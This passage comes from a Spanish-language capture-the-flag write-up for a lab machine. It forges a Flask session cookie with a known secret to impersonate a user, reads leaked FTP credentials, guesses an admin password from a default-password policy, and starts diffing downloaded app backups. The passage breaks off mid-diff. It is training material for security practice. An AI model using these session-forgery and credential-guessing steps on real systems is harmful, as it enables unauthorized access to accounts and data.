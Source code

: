 Se paró en "blue".

Asi que toca crear su cookie:
```console
└─$ flask-unsign --sign  --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Y1lyDg.2Rw4NU_I1TDEs6KuZ-bvQ4DPBNU
```
Ahora estamos como blue, la nota 2 es esta (la 1 sigue dando server error)
```
* Delete the password note
* Ask the admin team to change the password
```
En notes se ve la 1
```
Hello, Thank you for choosing our premium service. Now you are capable of doing many more things with our 
application. All the information you are going to need are on the Email we sent you. By the way, now you can 
access our FTP service as well. Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.
(Additional information are included in the attachments we sent along the Email)
We all hope you enjoy our service. Thanks!
ftp_admin
```
--------------------------------

# Parte 3: Entrando en el servidor ftp

Parece que hay un usuario llamado ftp_admin, pero tenemos creds para ftp blue:blue@Noter!
```console
└─$ ftp 10.10.11.160
Name: blue
Password:
ftp> ls
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
ftp> prompt off 
Interactive mode off.
ftp> mget *
```

Obtenemos un pdf (policy.pdf) en el que hablan de consejos de seguirdad para la empresa respecto a contraseñas. Llama la atención una sección:
- Las contraseñas por defecto que genera la aplicación están en el formato "nombre@Noter!"
Así que la de ftp_admin debería cumplir este requisito si no se ha cambiado *ftp_admin:ftp_admin@Noter!* (pero no sirve en el panel de login)
Nos conectamos por ftp con estas creds, y repetimos el proceso.
```console
└─$ ftp 10.10.11.160
Name: ftp_admin
Password:
ftp> ls
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip
ftp> prompt off 
Interactive mode off.
ftp> mget * 
```
Tenemos dos zips que parecen ser identicos. Cuando se descomprimen tienen la misma estrcutura de carpetas.
La manera que hay de ver la diferencia es con el comando diff
```console
└─$ diff version1 version2
diff '--color=auto' version1/app.py version2/app.py
17,18c17,18
< app.config['MYSQL_USER'] = 'root'
```